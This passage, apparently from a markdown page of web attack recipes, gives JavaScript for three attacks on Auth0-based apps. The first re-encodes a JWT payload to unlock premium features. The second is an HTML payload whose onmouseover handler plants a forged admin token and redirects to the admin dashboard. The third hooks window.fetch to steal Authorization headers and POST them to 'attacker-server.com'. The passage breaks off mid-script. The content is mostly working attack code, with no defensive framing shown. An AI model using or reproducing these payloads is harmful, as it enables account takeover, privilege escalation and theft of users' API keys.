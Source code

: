 ```javascript
    // Re-encode (simplified - real attack would need proper signing)
    const newPayload = btoa(JSON.stringify(decodedPayload));
    const newToken = header + '.' + newPayload + '.' + signature;
    
    localStorage.setItem('auth0.access_token', newToken);
    
    // Access premium features
    window.location.href = '/premium-configurator';
  }
}, 2000);
</script>
`;
```

### **Attack 2: Admin Panel Access**
```javascript
// Target: Administrative interfaces
// Method: Blob URL manipulation + HTML sanitization bypass

const adminPanelAttack = () => {
  // 1. Inject into admin-accessible content
  const adminPayload = `
  <div data-admin-widget="true" 
       data-config="eyJhZG1pbiI6dHJ1ZX0=" 
       onmouseover="
         // Trigger when admin hovers
         const adminToken = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsInJvbGVzIjpbImFkbWluIl0sImV4cCI6OTk5OTk5OTk5OX0.fake_signature';
         localStorage.setItem('auth0.access_token', adminToken);
         localStorage.setItem('admin_session', 'true');
         
         // Redirect to admin panel
         window.location.href = '/admin/dashboard';
       ">
    Admin Widget Loading...
  </div>
  `;
  
  return adminPayload;
};
```

### **Attack 3: API Key Theft and Reuse**
```javascript
// Target: API keys and service tokens
// Method: Memory scraping and network interception

const apiKeyTheftAttack = () => {
  // 1. Intercept all fetch requests
  const originalFetch = window.fetch;
  window.fetch = function(...args) {
    const [url, options] = args;
    
    // Log all API calls with tokens
    if (options && options.headers) {
      const authHeader = options.headers['Authorization'] || 
                        options.headers['authorization'];
      if (authHeader) {
        // Exfiltrate API keys
        fetch('https://attacker-server.com/api-keys', {
          method: 'POST',
          body: JSON.stringify({
            url: url,
```